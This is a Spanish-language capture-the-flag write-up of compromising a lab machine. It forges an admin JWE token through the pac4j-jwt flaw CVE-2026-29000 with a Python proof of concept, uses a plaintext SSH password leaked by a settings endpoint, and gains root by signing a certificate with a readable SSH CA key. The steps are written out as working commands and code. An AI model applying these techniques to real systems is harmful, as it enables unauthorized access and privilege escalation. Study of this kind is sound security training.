

Resumen de Explotación
La máquina expone un portal web en el puerto 8080 construido con Spring Boot y protegido por
pac4j-jwt 6.0.3. Esta versión concreta es vulnerable a
CVE-2026-29000, un bypass de
autenticación que permite forjar tokens JWE arbitrarios usando únicamente la clave pública RSA
del servidor, ya que el backend no verifica la firma del JWT interno. El endpoint
/api/auth/jwks expone dicha clave pública de forma abierta, lo que convierte el
ataque en algo completamente sin credenciales.
Con un token forjado como ROLE_ADMIN accedo a los endpoints privilegiados de la
API. El endpoint /api/settings filtra directamente una credencial en texto claro
(encryptionKey) que resulta ser la contraseña SSH del usuario de servicio
svc-deploy, con la que obtengo acceso inicial a la máquina.
Una vez dentro, descubro que svc-deploy pertenece al grupo deployers,
que tiene permisos de lectura sobre el directorio /opt/principal/ssh/. Este
directorio contiene la clave privada de la CA de SSH del sistema. La
configuración de sshd en TrustedUserCAKeys apunta a esta CA, lo que
significa que cualquier certificado firmado por ella es aceptado para autenticación. Genero una
clave RSA local, la firmo con la CA para el usuario root y obtengo acceso
privilegiado completo mediante SSH.
Tecnologías / Exploits: pac4j-jwt 6.0.3 JWE token forgery (CVE-2026-29000), filtrado de credenciales en endpoint de configuración, escalada de privilegios mediante certificate authority SSH comprometida.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar los puertos y servicios expuestos en la máquina objetivo:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 b0:a0:ca:46:bc:c2:cd:7e:10:05:05:2a:b8:c9:48:91 (ECDSA)
|_ 256 e8:a4:9d:bf:c1:b6:2a:37:93:40:d0:78:00:f5:5f:d9 (ED25519)
8080/tcp open http-proxy Jetty
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty
| http-title: Principal Internal Platform - Login
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.1 404 Not Found
| Server: Jetty
| X-Powered-By: pac4j-jwt/6.0.3
| Cache-Control: must-revalidate,no-cache,no-store
| Content-Type: application/json
|_ {"timestamp":"...","status":404,"error":"Not Found","path":"..."}Solo dos puertos abiertos: SSH en el 22 y un servidor HTTP (Jetty) en el 8080. La cabecera
X-Powered-By: pac4j-jwt/6.0.3 es inmediatamente llamativa, ya que revela la versión
exacta del framework de autenticación.
Enumeración Web
Lanzo whatweb contra el servicio HTTP para obtener más contexto tecnológico:
whatweb http://10.129.244.220:8080/loginhttp://10.129.244.220:8080/login [200 OK] Content-Language[en], HTML5,
HTTPServer[Jetty], PasswordField[password],
PoweredBy[pac4j], X-Powered-By[pac4j-jwt/6.0.3],
Title[Principal Internal Platform - Login]Confirma el stack. Al intentar acceder a una ruta inexistente, obtengo una página de error característica de Spring Boot:
Whitelabel Error Page
This application has no explicit mapping for /error, so you are seeing this as a fallback.
There was an unexpected error (type=Not Found, status=404).Con un diccionario específico de Spring Boot hago fuzzing y descubro varias rutas interesantes, aunque todas requieren autenticación:
gobuster dir -u "http://10.129.244.220:8080" \
-w "/usr/share/seclists/Discovery/Web-Content/Programming-Language-Specific/Java-Spring-Boot.txt" \
-t 200 -x html,jspapi/actuator/env/language.jsp (Status: 401) [Size: 58]
api/actuator/env.jsp (Status: 401) [Size: 58]
api/actuator/env (Status: 401) [Size: 58]
api/actuator.html (Status: 401) [Size: 58]
api/actuator/env/hostname (Status: 401) [Size: 58]Con un diccionario más genérico aparecen rutas adicionales:
login (Status: 200) [Size: 6152]
error (Status: 500) [Size: 73]
WEB-INF (Status: 500) [Size: 0]
dashboard (Status: 200) [Size: 3930]
META-INF (Status: 500) [Size: 0]
web-inf (Status: 500) [Size: 0]
reset-password (Status: 501) [Size: 110]Usando Burp Suite para interceptar la redirección del navegador antes de que llegue a
/login, puedo ver el contenido del /dashboard brevemente:

Análisis del JavaScript del Frontend
El código JavaScript cargado en la página de login no está ofuscado. Inspeccionándolo encuentro constantes con rutas y definiciones de roles del lado del servidor, lo que es muy útil para mapear la superficie de ataque:
const API_BASE = '';
const JWKS_ENDPOINT = '/api/auth/jwks';
const AUTH_ENDPOINT = '/api/auth/login';
const DASHBOARD_ENDPOINT = '/api/dashboard';
const USERS_ENDPOINT = '/api/users';
const SETTINGS_ENDPOINT = '/api/settings';
// Role constants - must match server-side role definitions
const ROLES = {
ADMIN: 'ROLE_ADMIN',
MANAGER: 'ROLE_MANAGER',
USER: 'ROLE_USER'
};
function renderNavigation(role) {
const navItems = [
{ label: 'Dashboard', endpoint: DASHBOARD_ENDPOINT, roles: [ROLES.ADMIN, ROLES.MANAGER, ROLES.USER] },
{ label: 'Users', endpoint: USERS_ENDPOINT, roles: [ROLES.ADMIN] },
{ label: 'Settings', endpoint: SETTINGS_ENDPOINT, roles: [ROLES.ADMIN] },
];
return navItems.filter(item => item.roles.includes(role));
}Queda claro que los endpoints /api/users y /api/settings son exclusivos de
ROLE_ADMIN. El objetivo es conseguir un token con ese rol.
Haciendo fuzzing también bajo /api y /api/auth, descubro además el endpoint
/api/health que responde públicamente:
{"status":"UP","version":"1.2.0"}El Endpoint JWKS
Durante la inspección con Burp Suite había visto una petición a /api/auth/jwks. Este
endpoint es habitual en implementaciones JWT/JWE y expone la clave pública RSA del servidor:
{
"keys": [{
"kty": "RSA",
"e": "AQAB",
"kid": "enc-key-1",
"n": "lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-WtBsdWtJRaeeG61iNgYsFUXE9j2MAqmekpnyapD6A9dfSANhSgCF60uAZhnpIkFQVKEZday6ZIxoHpuP9zh2c3a7JrknrTbCPKzX39T6IK8pydccUvRl9zT4E_i6gtoVCUKixFVHnCvBpWJtmn4h3PCPCIOXtbZHAP3Nw7ncbXXNsrO3zmWXl-GQPuXu5-Uoi6mBQbmm0Z0SC07MCEZdFwoqQFC1E6OMN2G-KRwmuf661-uP9kPSXW8l4FutRpk6-LZW5C7gwihAiWyhZLQpjReRuhnUvLbG7I_m2PV0bWWy-Fw"
}]
}Esta clave pública, combinada con la vulnerabilidad que descubriré a continuación, es la pieza clave del ataque.
Investigación de la Vulnerabilidad — CVE-2026-29000
Busco información sobre pac4j-jwt/6.0.3 y encuentro rápidamente un CVE activo:
CVE-2026-29000.
"pac4j-jwt versions prior to 4.5.9, 5.7.9, and 6.3.3 contain an authentication bypass vulnerability in JwtAuthenticator when processing encrypted JWTs that allows remote attackers to forge authentication tokens. Attackers who possess the server's RSA public key can create a JWE-wrapped PlainJWT with arbitrary subject and role claims, bypassing signature verification to authenticate as any user including administrators."
La clave pública que expone el endpoint JWKS es exactamente lo que necesita el ataque.
Entendiendo la Vulnerabilidad
La vulnerabilidad es una variante de algorithm confusion o alg: none. El flujo
normal sería: el servidor emite un JWT firmado con su clave privada RSA (RS256), y al recibirlo de
vuelta verifica esa firma para garantizar autenticidad.
El problema es que cuando el JWT llega envuelto en un JWE (JSON Web Encryption), el servidor lo
descifra correctamente usando su clave privada, pero luego no verifica la firma del JWT
interno. Esto significa que un atacante puede crear un PlainJWT (sin firma,
alg: none) con los claims que quiera, envolverlo en un JWE cifrado con la clave pública
del servidor (que está pública en /api/auth/jwks), y el servidor lo aceptará como
válido.
Forjando el Token de Administrador
Localizo una PoC para este CVE en GitHub: CVE-2026-29000 Python PoC. El script acepta la URL del endpoint JWKS, el usuario y el rol deseados:
parser.add_argument("--jwks", required=True, help="JWKS endpoint URL")
parser.add_argument("--user", default="admin", help="Username (sub claim)")
parser.add_argument("--role", default="ROLE_ADMIN", help="Role claim")Internamente, el script coge la clave pública del JWKS y cifra un PlainJWT con los
claims indicados en un JWE usando RSA-OAEP-256 y A128GCM:
def build_jwe(plain_jwt, jwks_key):
"""Encrypt PlainJWT into JWE"""
public_key = jwk.JWK.from_json(json.dumps(jwks_key))
protected_header = {
"alg": "RSA-OAEP-256",
"enc": "A128GCM",
"cty": "JWT",
"kid": jwks_key["kid"]
}
token = jwe.JWE(
plain_jwt.encode(),
protected=json.dumps(protected_header)
)
token.add_recipient(public_key)
return token.serialize(compact=True)El servidor descifra el JWE correctamente (tiene la clave privada), pero al no verificar la firma
del JWT interior acepta el PlainJWT con los claims arbitrarios. Ejecuto el script:
python3 cve.py --jwks http://10.129.244.220:8080/api/auth/jwks[*] Fetching JWKS...
[+] Public key loaded
[+] PlainJWT created
=== Malicious JWE Token ===
eyJhbGciOiAi...
Use it as:
Authorization: Bearer eyJhbGci...Acceso a los Endpoints Privilegiados
Con el token forjado añado la cabecera Authorization: Bearer <token> a las
peticiones. Primero compruebo /api/dashboard, que confirma que el bypass funciona y
muestra actividad reciente, usuarios del sistema y estadísticas. Hay una anotación interesante en
los anuncios:
{
"announcements": [
{
"severity": "warning",
"date": "2025-12-15",
"message": "SSH CA keys have been rotated. All deploy certificates issued before Dec 1 are revoked.",
"title": "New SSH CA Rotation"
}
]
}Interesante: mencionan una CA de SSH para certificados de despliegue. Lo tengo en mente para después.
Ahora consulto /api/users para mapear todos los usuarios del sistema:
{
"users": [
{ "username": "admin", "role": "ROLE_ADMIN", "department": "IT Security" },
{ "username": "svc-deploy", "role": "deployer", "note": "Service account for automated deployments via SSH certificate auth." },
{ "username": "jthompson", "role": "ROLE_USER", "department": "Engineering" },
{ "username": "amorales", "role": "ROLE_USER", "department": "Engineering" },
{ "username": "bwright", "role": "ROLE_MANAGER","department": "Operations" },
{ "username": "kkumar", "role": "ROLE_ADMIN", "active": false },
{ "username": "mwilson", "role": "ROLE_USER", "department": "QA" },
{ "username": "lzhang", "role": "ROLE_MANAGER","department": "Engineering" }
],
"total": 8
}El usuario svc-deploy destaca: es una cuenta de servicio para despliegues automatados
via SSH. Finalmente consulto /api/settings:
{
"system": {
"applicationName": "Principal Internal Platform",
"javaVersion": "21.0.10",
"serverType": "Jetty 12.x (Embedded)"
},
"security": {
"authFramework": "pac4j-jwt",
"authFrameworkVersion": "6.0.3",
"jwtAlgorithm": "RS256",
"jweAlgorithm": "RSA-OAEP-256",
"jweEncryption": "A128GCM",
"encryptionKey": "D3pl0y_$$H_Now42!",
"tokenExpiry": "3600s"
},
"infrastructure": {
"sshCertAuth": "enabled",
"sshCaPath": "/opt/principal/ssh/",
"notes": "SSH certificate auth configured for automation - see /opt/principal/ssh/ for CA config."
}
}El campo encryptionKey filtra directamente una credencial en texto claro. Por el nombre
del parámetro y el usuario de servicio que hemos visto antes, la asociación es obvia:
svc-deploy : D3pl0y_$$H_Now42!.
Además, la sección infrastructure confirma que la CA de SSH está en
/opt/principal/ssh/, dato que será crucial para la escalada.
Acceso Inicial — SSH como svc-deploy
Pruebo la credencial encontrada en el servicio SSH:
ssh svc-deploy@10.129.244.220Funciona. Obtengo acceso al sistema y la flag de usuario.
Escalada de Privilegios — SSH Certificate Authority Comprometida
Compruebo a qué grupos pertenece el usuario actual:
iduid=1001(svc-deploy) gid=1002(svc-deploy) groups=1002(svc-deploy),1001(deployers)El grupo deployers es un grupo personalizado. Busco qué ficheros le pertenecen:
find / -group deployers 2>/dev/null/etc/ssh/sshd_config.d/60-principal.conf
/opt/principal/ssh
/opt/principal/ssh/README.txt
/opt/principal/ssh/caEl fichero ca es la clave privada de la Certificate Authority de SSH. Antes de
explotarla, reviso la configuración de sshd y el README para entender el contexto:
cat /opt/principal/ssh/README.txtCA keypair for SSH certificate automation.
This CA is trusted by sshd for certificate-based authentication.
Use deploy.sh to issue short-lived certificates for service accounts.
Key details:
Algorithm: RSA 4096-bit
Created: 2025-11-15
Purpose: Automated deployment authenticationcat /etc/ssh/sshd_config.d/60-principal.conf# Principal machine SSH configuration
PubkeyAuthentication yes
PasswordAuthentication yes
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pubLa directiva TrustedUserCAKeys le dice a sshd que confíe en cualquier certificado
firmado por la CA cuya clave pública está en /opt/principal/ssh/ca.pub. Como tenemos
acceso de lectura a la clave privada en /opt/principal/ssh/ca, podemos
firmar cualquier certificado que queramos, incluyendo uno para root.
La directiva PermitRootLogin prohibit-password impide el login de root con contraseña,
pero no impide el login de root con certificado o clave pública. La CA lo cubre.
Forjando el Certificado SSH para root
Copio la clave privada de la CA a mi máquina atacante. Luego genero un nuevo par de claves RSA para
un usuario ficticio (pwned):
ssh-keygen -t rsa -f pwnedEsto genera los ficheros pwned (clave privada) y pwned.pub (clave
pública). Ahora firmo la clave pública con la CA, especificando el principal
root:
ssh-keygen -s ca -I "pwned" -n root -V +1h pwned.pubLos parámetros relevantes:
-s ca— clave privada de la CA con la que firmar-I "pwned"— identificador del certificado (puede ser cualquier cadena)-n root— principal: el usuario para el que es válido el certificado-V +1h— validez de una hora
El comando genera el fichero pwned-cert.pub. Doy los permisos correctos a la clave
privada:
chmod 600 pwnedPor último, conecto al objetivo como root usando el certificado:
ssh -i pwned root@10.129.244.220SSH selecciona automáticamente el certificado pwned-cert.pub asociado a la clave
privada pwned. sshd verifica que el certificado está firmado por la CA de confianza y
que el principal incluye root, concediendo acceso. Obtengo la flag de root y completo
la máquina.